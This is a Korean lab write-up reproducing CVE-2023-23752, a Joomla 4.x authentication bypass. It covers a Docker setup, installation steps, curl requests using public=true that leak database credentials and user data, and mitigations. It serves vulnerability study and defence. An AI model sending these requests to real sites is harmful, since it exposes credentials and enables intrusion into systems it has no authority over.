





# CVE-2023-23752 — Joomla! 웹서비스 엔드포인트 인증 우회

Joomla! 4.0.0 ~ 4.2.7 버전의 인증 우회 취약점입니다. 인증되지 않은 사용자가 웹서비스 API 요청에 public=true 파라미터만 붙이면 권한 검사가 우회되고, DB 계정과 설정 정보가 평문으로 노출됩니다.

## 취약점 요약

Joomla 4.x의 웹서비스 API(/api/index.php/v1/...) 중 설정, 사용자 목록 등 일부 엔드포인트는 관리자 인증이 필요합니다. 그러나 4.2.7 이하에서는 요청에 public=true를 추가하면 객체 속성 덮어쓰기로 인해 접근 권한 검사가 통과됩니다. 인증 없이 민감 정보를 읽을 수 있습니다. 노출된 DB 자격증명은 데이터베이스 접속이나 관리자 계정 탈취 등 2차 공격에 활용될 수 있습니다.

- 대상: Joomla! CMS 4.0.0 ~ 4.2.7 (4.2.8에서 패치)
- 유형: 인증 우회 / 정보 노출
- 인증 필요: 없음, 원격 공격 가능

## 환경 구성

Docker Hub 공식 이미지만 사용하고 버전을 고정해 단일 docker compose로 구성합니다.

docker-compose.yml

```yaml
services:
  joomla:
    image: joomla:4.2.7-apache
    container_name: cve-2023-23752-joomla
    depends_on:
      - mysql
    environment:
      - JOOMLA_DB_HOST=mysql
      - JOOMLA_DB_NAME=joomladb
      - JOOMLA_DB_USER=root
      - JOOMLA_DB_PASSWORD=vulhub_pw
    ports:
      - "8080:80"
    restart: unless-stopped

  mysql:
    image: mysql:5.7
    container_name: cve-2023-23752-mysql
    environment:
      - MYSQL_ROOT_PASSWORD=vulhub_pw
      - MYSQL_DATABASE=joomladb
    restart: unless-stopped
```

## 취약 조건

- Joomla 버전이 4.0.0 이상 4.2.7 이하
- 설치가 완료되고 installation 디렉터리가 제거되어 웹서비스 API가 활성화된 상태
- /api/index.php 경로에 네트워크로 접근 가능


## 재현 절차

컨테이너를 실행합니다.

```bash
docker compose up -d
docker compose ps
```

브라우저에서 http://localhost:8080 에 접속해 설치를 진행합니다. 관리자 계정을 입력합니다.



사이트 이름을 먼저 설정해줍니다. test를 위해 CVE-2023-23752 TEST 로 진행했습니다.



각각 admin, admin, password1234, admin@test.com 으로 진행했습니다.



사진과 같이 MySQLi, mysql, root, vulhub_pw, joomladb, df74p_, Default (server controlled) 로 진행했습니다.
그 후 localhost:8080으로 접속해 제대로 되는지 확인합니다.
정확한 이유는 모르겠으나 사이트에 접속하지 않고 PoC를 진행하면 다음과 같은 오류가 발생합니다.
{"error":"You must install Joomla to use the API"}
브라우저로 localhost로 직접 들어가는 과정이 설치 마무리 인 것 같습니다.

## PoC

인증 정보 없이 GET 요청 한 번으로 성립합니다. Windows PowerShell에서는 curl 대신 curl.exe를 사용합니다.

설정 정보 유출

```bash
curl "http://localhost:8080/api/index.php/v1/config/application?public=true"
```
저는 powershell에서 진행해 curl.exe http://localhost:8080/api/index.php/v1/config/application?public=true 로 진행했습니다.

사용자 정보 유출

```bash
curl "http://localhost:8080/api/index.php/v1/users?public=true"
```
저는 powershell에서 진행해 curl.exe http://localhost:8080/api/index.php/v1/users?public=true 로 진행했습니다.

## 실행 결과

인증 없이 애플리케이션 설정이 반환되었으며, 응답 JSON에서 host, user, password(vulhub_pw), db 값이 평문으로 확인됩니다.



사용자 엔드포인트에서도 관리자 계정의 username, email, 등록일 등이 그대로 반환됩니다.



두 요청 모두 세션 토큰이나 인증 헤더 없이 데이터가 뜨고 이는 권한 검사가 우회되었음을 의미합니다.

## 대응 방안

- Joomla 4.2.8 이상으로 업그레이드합니다. 패치 버전에서 웹서비스 엔드포인트 권한 검사가 수정되어 우회가 차단됩니다.
- 즉시 업그레이드가 어려운 경우 리버스 프록시나 WAF에서 /api/index.php 접근 또는 public=true 요청을 차단합니다.
- API가 필요 없으면 웹서비스 플러그인을 비활성화 / DB 계정 권한을 최소화합니다.

## 참고

- Joomla 보안 공지 20230201 - Core - Improper access check in webservice endpoints
- https://nvd.nist.gov/vuln/detail/CVE-2023-23752
